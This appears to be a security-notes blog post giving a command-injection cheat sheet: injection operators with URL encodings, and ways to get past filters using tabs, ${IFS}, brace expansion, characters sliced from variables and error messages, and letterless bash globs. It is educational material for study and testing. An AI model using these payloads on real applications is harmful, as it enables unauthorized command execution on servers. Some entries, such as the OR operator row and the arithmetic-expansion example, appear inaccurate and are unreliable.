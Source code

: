 ```yaml
---
title: Command Injection
layout: post
date: 2025-05-05
description: "Command Injection is a type of attack where an attacker can execute arbitrary commands on the host operating system via a vulnerable application."
permalink: /theory/misc/cmi
---
```


## Command Injection Overview
Command Injection is a type of attack where an attacker can execute arbitrary commands on the host operating system via a vulnerable application. This is typically done by injecting malicious commands into input fields that are then executed by the server.

## Command Injection Cheat Sheet


### Basic Command Injection Characters

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | `\|`                    | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | `\|`                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

A usefull command on Linux to find the interpretation of strokes of command like `CTRL+I` is `showkey -a` which will show us the ASCII code of the stroke. For example, if we want to find the ASCII code of `CTRL+I`, we can use the following command:

```bash
showkey -a

Press any keys - Ctrl-D will terminate this program

		 9 0011 0x09
m 	109 0155 0x6d
H 	72 0110 0x48
i 	105 0151 0x69
j 	106 0152 0x6a
u 	117 0165 0x75
x 	120 0170 0x78
S 	83 0123 0x53
^M 	13 0015 0x0d
^L 	12 0014 0x0c
^J 	10 0012 0x0a
^C 	 3 0003 0x03
^X 	24 0030 0x18
^Z 	26 0032 0x1a
```
### Bypassing Blacklists
 
#### Filtered Spaces

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Description**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------- |
| `Tab`                    | `\t`                    | `%09`                     | Both Linux and Windows accepts tabs to separate commands, useful for bypassing a space blacklist|
| `IFS`              | `${IFS}`                  |             | IFS is a special variable in Linux (Internal Field Separator) which is normally a space or a tab as the default separator|
| `Brace Expansion` | `{}` | `` | `{}` is a special character in Linux which is used to group commands together. It can be used to bypass a space blacklist, `{ls,-la}` would result in `ls -la` command |

> **Note:** To force a tab character on a shell, we can send `CTRL+v` and then `CTRL+I` (or simply `CTRL-v`+`TAB Key`) to insert a tab character. This is useful when we want to bypass a space blacklist.
{: .prompt-info}

### Bypassing Arithmetic Expansion

If we are inside an arithmetic expansion environment like

```bash
echo $((<INPUT>))
```

we can add spaces from within the parentheses to make the shell interpret the command as a simple command expression and not as an arithmetic expression. For example, if we want to execute the command `ls`, we can use the following command:

```bash
#Input: ls -la) ) #
```

this will be evaluated as `echo $((ls -la ) ) #))`, which will be interpreted as `echo $((ls -la) )` and will show us the output of the command `ls -la`.


### Getting Characters From Variables

We can bypass some filters by using variables to get the characters we need. For example, if we want to get the character `:`, or `/`, we can use the `PATH` environment variable `PATH` which contains a colon `:` and `/` in its value.

```bash
echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
We can use the `{}` operator to get the character we need. For example, if we want to get the character `:`, we can use the following command:

```bash
${PATH:16:1}
```

This will return the character `:`. We can use the same technique to get the character `/` by using the following command:

```bash
${PATH:0:1}
```

We can force more characters available to our use by creating variables from errors. For example, if we have a shell that restricts every alphabetic character, and we see an error like:

```bash
$ /_
zsh: no such file or directory: /_
```

We sent the `/_` input and got that error, we can see that we have `d` and `i` on that error, if this was a variable we could get it to send the command `id`, so, we can save this error in a variable and use it to get the characters we need. Since it comes from `stderr` we can redirect the standard error for the error to our output with `2>&1`

```bash
_1=$(/_ 2>&1)
$ $_1
zsh: no such file or directory: zsh: no such file or directory: /_
```

As we can see, it tried running our variable which expanded to the error, so now we can get the characters we want to run the command `id`:

```bash
# Get char i
${_1:22:1}
zsh: command not found: i
# Get char d and running id

$ ${_1:22:1}${_1:21:1}
uid=1000(user) gid=1000(user) groups=1000(user),965(docker),998(wheel)
```

### Bash without letters
With bash we can use special characters to execute commands without using letters. For example, we can use the following command to execute the same as the command `cat`:

```bash
"$(<~/*/????.???)"
```
This command will send to contents of the file `flag.txt` (or the one matching the `?`) and return an output error saying command not found but with the contents of the file.
